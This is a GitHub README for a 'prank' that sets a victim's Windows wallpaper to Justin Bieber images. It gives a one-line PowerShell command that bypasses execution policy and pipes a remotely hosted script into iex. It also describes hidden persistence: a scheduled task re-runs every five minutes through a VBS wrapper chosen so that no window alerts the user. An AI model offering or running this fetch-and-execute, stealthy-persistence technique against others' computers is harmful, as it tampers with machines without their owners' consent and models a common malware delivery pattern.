


# Justin Wallpaper Prank

This script is a prank that will change the wallpaper of a victim's computer to Justin Bieber images.

It can be run by only running a single command in the cmd prompt.

Note: This only works on `Windows`. For `Mac` version, please check out [this repository](https://github.com/FredericMartinez/justin-hack) from [Frederic Martinez](https://github.com/FredericMartinez).

## How to use

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/install.ps1')|iex"

```



## How it works

The command above will download a powershell script from this repository and run it.

Firstly, the script will create a directory under `%userprofile%` and download Justin's image from [here](./images).

Then the script will download the [changer.ps1](./changer/changer.ps1) that is in charge of changing the wallpaper. This `changer.ps1` script will be scheduled in the task scheduler to run every 5 minutes.

The reason why we also have a `jhcaller.vbs` is because if we schedule a PowerShell script into the task scheduler, it will quickly show up a cmd window and disappear. This is not what we want. So we use a `vbs` script to call the `changer.ps1` script, which is a little work around :
    
```vbs
objShell.Run strCMD, 0
```

In the [jhcaller.vbs](./changer/jhcaller.vbs) we can see this line of code. This line of code will run the `changer.ps1` script in the background and won't show any pop-up.

Finally, the scheduled task is created via a [template](changer/taskTemplate.xml) in order to edit some configurations that are not avaible in the task scheduler CLI, such as activating the scheduled task if the computer isn't plugged-in.

## How to remove

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/unistall/uninstall.ps1')|iex"
```

This will remove the scheduled task and the directory that was created.



## How to contribute

If you want to contribute, please feel free to open a pull request or an issue.

## License

[MIT](./LICENSE)

## Author

[mxcezl](https://github.com/mxcezl)